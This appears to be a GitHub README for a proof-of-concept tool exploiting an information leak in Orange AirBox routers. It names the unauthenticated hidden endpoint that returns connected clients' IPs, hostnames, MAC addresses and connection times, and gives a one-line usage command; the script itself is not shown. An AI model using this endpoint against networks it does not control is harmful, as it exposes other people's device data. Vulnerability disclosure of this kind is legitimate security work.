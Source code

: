 # AirboxLeak
Proof of Concept of AirBoxLeak Vulnerability.                       

# How to use      

AsusLeak.py         
`python AirBoxLeak.py -ip 192.168.1.1`        
`IP, HOSTNAME, MAC ADDRESS, CONNECTION TIME`

# How it works        

AirBox has hidden webpage `http://192.168.1.1/goform/getWlanClientInfo?rand=` which prints currently connected devices ip,hostnames,mac addresses and connection time.

# Router information        

Router: AirBox
Vendor: Orange
Firmware version: 3.0.0.4.380_6516
    
